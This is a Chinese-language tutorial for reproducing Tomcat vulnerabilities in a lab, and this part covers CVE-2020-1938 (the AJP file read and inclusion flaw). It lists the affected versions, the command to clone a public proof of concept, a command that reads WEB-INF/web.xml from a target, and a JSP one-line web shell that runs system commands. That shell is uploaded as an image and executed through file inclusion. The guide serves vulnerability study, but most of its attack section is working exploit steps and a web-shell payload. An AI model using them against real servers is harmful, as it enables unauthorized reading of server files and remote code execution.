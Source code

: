 ## 前言

复现 tomcat 一些漏洞，跟着搭环境也花了点时间，想复现的朋友可以下载我打包好的tomcat，下面的漏洞（除了反射型XSS）都配置了，下载下来可以直接进行复现。



## CVE-2020-1938

----

> Apache-Tomcat-Ajp
> Tomcat服务器存在文件包含漏洞，攻击者可利用该漏洞读取或包含Tomcat上所有webapp目录下的任意文件，如：webapp配置文件或源代码等。

### 影响范围
```
Apache Tomcat 6
Apache Tomcat 7 < 7.0.100
Apache Tomcat 8 < 8.5.51
Apache Tomcat 9 < 9.0.31
```

### 复现步骤

通过扫描端口，发现 ajp 协议
> 默认端口：8009  ajp13，8007 ajp12

![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140032213-1868106180.png)


#### 文件读取

下载POC：
```
git clone https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi
```
读取文件：
```
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.64.129 -p 8009 -f WEB-INF/web.xml
```

![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140047608-56726701.png)


#### 文件包含

> 大佬的文章：https://www.t00ls.net/thread-55062-1-1.html

执行命令的一句话，通过上传上去
```jsp
<%out.println(new java.io.BufferedReader(new java.io.InputStreamReader(Runtime.getRuntime().exec("whoami").getInputStream())).readLine());%>
```
文件包含：
```
python3 2020-10487.py 192.168.64.129 -p 8009 -f 1.jpg --rce 1
```
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140103416-587577170.png)
